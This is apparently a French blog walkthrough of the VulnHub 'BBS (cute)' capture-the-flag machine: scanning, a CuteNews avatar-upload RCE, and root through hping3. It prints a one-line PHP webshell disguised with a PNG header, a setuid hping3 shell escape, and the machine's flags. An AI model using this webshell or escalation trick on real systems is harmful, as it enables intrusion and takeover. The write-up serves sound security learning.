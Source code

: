 ```yaml
---
title: "Solution du CTF Cute de VulnHub"
tags: [CTF, VulnHub]
---
```


Ayant résolu déjà 2 CTFs de foxlox (ICMP et Boverflow) et les trouvant plutôt intéressants j'ai décidé de continuer avec celui-ci. Je ne sais pas exactement quel est son nom il est désigné comme [BBS (cute): 1.0.2](https://www.vulnhub.com/entry/bbs-cute-102,567/) sur VulnHub.

```
Nmap scan report for 192.168.56.45
Host is up (0.00026s latency).
Not shown: 65530 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 04d06ec4ba4a315a6fb3eeb81bed5ab7 (RSA)
|   256 24b3df010bcac2ab2ee949b058086afa (ECDSA)
|_  256 6ac4356a7a1e7e51855b815c7c744984 (ED25519)
80/tcp  open  http     Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
88/tcp  open  http     nginx 1.14.2
|_http-title: 404 Not Found
|_http-server-header: nginx/1.14.2
110/tcp open  pop3     Courier pop3d
|_pop3-capabilities: PIPELINING LOGIN-DELAY(10) IMPLEMENTATION(Courier Mail Server) UIDL TOP USER UTF8(USER) STLS
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-09-17T16:28:06
|_Not valid after:  2021-09-17T16:28:06
995/tcp open  ssl/pop3 Courier pop3d
|_pop3-capabilities: LOGIN-DELAY(10) IMPLEMENTATION(Courier Mail Server) UIDL TOP USER UTF8(USER) PIPELINING
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-09-17T16:28:06
|_Not valid after:  2021-09-17T16:28:06
```

## Mignon tout plein

On a ici deux services HTTP, l'un sur le port standard, l'autre sur le port 88. Il y a aussi un serveur de messagerie.

Les deux sites ne retournant rien d'intéressant, je commence par chercher sur le port 80 des fichiers/dossiers intéressants :

```bash
$ feroxbuster -u http://192.168.56.45/ -w discovery/predictable-filepaths/filename-dirname-bruteforce/raft-large-directories.txt

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.4.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.56.45/
 🚀  Threads               │ 50
 📖  Wordlist              │ filename-dirname-bruteforce/raft-large-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.4.0
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
301        9l       28w      316c http://192.168.56.45/uploads
301        9l       28w      313c http://192.168.56.45/docs
301        9l       28w      314c http://192.168.56.45/skins
301        9l       28w      313c http://192.168.56.45/libs
301        9l       28w      313c http://192.168.56.45/core
301        9l       28w      321c http://192.168.56.45/skins/images
301        9l       28w      316c http://192.168.56.45/libs/js
301        9l       28w      317c http://192.168.56.45/libs/css
301        9l       28w      322c http://192.168.56.45/core/includes
301        9l       28w      321c http://192.168.56.45/core/modules
301        9l       28w      319c http://192.168.56.45/core/tools
301        9l       28w      318c http://192.168.56.45/core/lang
301        9l       28w      319c http://192.168.56.45/libs/fonts
301        9l       28w      321c http://192.168.56.45/core/captcha
301        9l       28w      315c http://192.168.56.45/manual
301        9l       28w      322c http://192.168.56.45/manual/images
301        9l       28w      318c http://192.168.56.45/manual/en
301        9l       28w      318c http://192.168.56.45/manual/de
301        9l       28w      318c http://192.168.56.45/manual/fr
301        9l       28w      321c http://192.168.56.45/manual/style
301        9l       28w      318c http://192.168.56.45/manual/es
301        9l       28w      323c http://192.168.56.45/manual/en/misc
301        9l       28w      323c http://192.168.56.45/manual/fr/misc
301        9l       28w      319c http://192.168.56.45/skins/base
200      128l      671w     9844c http://192.168.56.45/manual/fr/
301        9l       28w      322c http://192.168.56.45/manual/fr/faq
301        9l       28w      322c http://192.168.56.45/manual/fr/ssl
301        9l       28w      322c http://192.168.56.45/manual/fr/mod
301        9l       28w      327c http://192.168.56.45/manual/fr/programs
200      128l      611w     9544c http://192.168.56.45/manual/de/
301        9l       28w      327c http://192.168.56.45/manual/fr/platform
301        9l       28w      327c http://192.168.56.45/manual/de/platform
301        9l       28w      326c http://192.168.56.45/manual/de/rewrite
301        9l       28w      319c http://192.168.56.45/migrations
200       99l      452w     5717c http://192.168.56.45/manual/fr/misc/
```

Ca fait pas mal de dossiers mais ça ne me parle pas vraiment, mis à part le dossier *migrations* qui mentionne une appli web  nommée *CuteNews*.

Le listing des fichiers est plus instructif :

```bash
$ feroxbuster -u http://192.168.56.45/ -w fuzzdb/discovery/predictable-filepaths/filename-dirname-bruteforce/raft-large-files.txt 

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.4.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.56.45/
 🚀  Threads               │ 50
 📖  Wordlist              │ ble-filepaths/filename-dirname-bruteforce/raft-large-files.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.4.0
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
200      368l      933w    10701c http://192.168.56.45/index.html
200       63l      481w     3119c http://192.168.56.45/LICENSE.txt
200        1l       12w     1150c http://192.168.56.45/favicon.ico
403        9l       28w      278c http://192.168.56.45/.htaccess
200      368l      933w    10701c http://192.168.56.45/
403        9l       28w      278c http://192.168.56.45/.html
403        9l       28w      278c http://192.168.56.45/.php
403        9l       28w      278c http://192.168.56.45/.htpasswd
403        9l       28w      278c http://192.168.56.45/.htm
403        9l       28w      278c http://192.168.56.45/.htpasswds
200        1l        7w       91c http://192.168.56.45/captcha.php
200        1l        6w       28c http://192.168.56.45/print.php
200      168l      396w     6175c http://192.168.56.45/index.php
200        5l      204w     5118c http://192.168.56.45/search.php
200        1l        6w       28c http://192.168.56.45/popup.php
200        2l       16w      105c http://192.168.56.45/rss.php
200      155l      752w        0c http://192.168.56.45/example.php
403        9l       28w      278c http://192.168.56.45/.htgroup
403        9l       28w      278c http://192.168.56.45/wp-forum.phps
403        9l       28w      278c http://192.168.56.45/.htaccess.bak
403        9l       28w      278c http://192.168.56.45/.htuser
403        9l       28w      278c http://192.168.56.45/.ht
403        9l       28w      278c http://192.168.56.45/.htc
200        2l      380w     2987c http://192.168.56.45/show_news.php
403        9l       28w      278c http://192.168.56.45/.htaccess.old
403        9l       28w      278c http://192.168.56.45/.htacess
```

On peut voir ici que *index.php* est différent de *index.html*. Pour un Apache par défaut le html est utilisé avant le php. Si on demande exploicitement *index.php* on se retrouve finalement devant une installation de *CuteNews*.

Cette appli web est vulnérable à une vulnérabilité de type unrestricted upload (menant à un RCE) : [GitHub - ColdFusionX/CVE-2019-11447_CuteNews-AvatarUploadRCE: Exploit Code for CVE-2019-11447 aka CuteNews 2.1.2 Avatar upload RCE (Authenticated)](https://github.com/ColdFusionX/CVE-2019-11447_CuteNews-AvatarUploadRCE)

Pour cela il faut préalablement créer un compte sur l'appli via le lien *Register*. Dans l'ensemble aucun problème pour cette opération mais à part qu'un captcha est demandé alors qu'aucune image n'apparait dans la page.

En analysant un peu la situation on voit que l'URL de l'image qui est *captcha.php* retourne en fait du texte. Il suffit de récupérer l'output du script et de recopier dans le champ captcha pour passer l'enregistrement.

L'exploitation consiste à uploader comme avatar du compte un fichier avec extension PHP qui passera la vérification du type mime.

On peut ainsi créer un script PHP qui aura un entête d'image PNG puis l'uploader :

```bash
$ echo -e '\x89\x50\x4e\x47\x0d\x0a\x1a\x0a\x00\x00\x00\x0d\x49\x48\x44\x52\x00<?php system($_GET["cmd"]); ?>' > shell.php
```

De cette façon j'obtiens mon shell à l'adresse suivante :

http://192.168.56.45/uploads/avatar_devloop_shell.php?cmd=id

L'étape suivante consiste à upgrader ce webshell vers un [reverse-ssh: Statically-linked ssh server with reverse shell functionality for CTFs and such](https://github.com/Fahrj/reverse-ssh).

## Aller simple vers root, sans correspondance

Pour les autres CTFs de la série on trouve un utilisateur *fox* qui dispose du premier flag.

```bash
www-data@cute:/home/fox$ cat user.txt 
dcb8189a0eaf7a690a67785a7299be60
```

Mais je ne trouve rien d'intéressant permettant de passer de l'utilisateur courant (*www-data*) vers *fox*.

Il y a bien cette entrée sudo permettant d'exécuter *hping3* en tant que root mais avec l'absence d'astérisque son utilisation n'a pas de sens :

```bash
www-data@cute:/home/fox$ sudo -l
Matching Defaults entries for www-data on cute:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on cute:
    (root) NOPASSWD: /usr/sbin/hping3 --icmp
```

Si on tente par exemple de rajouter le paramètre *--file* comme sur le [CTF ICMP](https://github.com/devl00p/blog/blob/main/ctf_writeups/Solution%20du%20CTF%20ICMP%20de%20VulnHub.md) on sort de la permission *sudo* et ce dernier demande alors le mot de passe de *www-data* que l'on ne connait pas.

Le binaire est toutefois aussi setuid root mais si on passe *--file* on a un message indiquant que l'option est désactivée quand le bit setuid est actif... sniff.

```bash
www-data@cute:/tmp$ /usr/sbin/hping3 --icmp --file /etc/shadow -d 100 192.168.56.1
Option disabled when setuid `--file'
```

Finalement après pas mal de recherches infructueuses je suis allé sur [l'entrée hping3 pour gtfobins](https://gtfobins.github.io/gtfobins/hping3/) et découvert qu'on pouvait utiliser le binaire comme une sorte d'interpréteur :

```bash
www-data@cute:/$ hping3
hping3> /bin/sh -p
# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
# cat /root/root.txt
0b18032c2d06d9e738ede9bc24795ff2
```

A défaut d'avoir un CTF plus long via l'utilisateur *fox* j'aurais découvert une particularité de hping3 :)

*Publié le 5 novembre 2022*
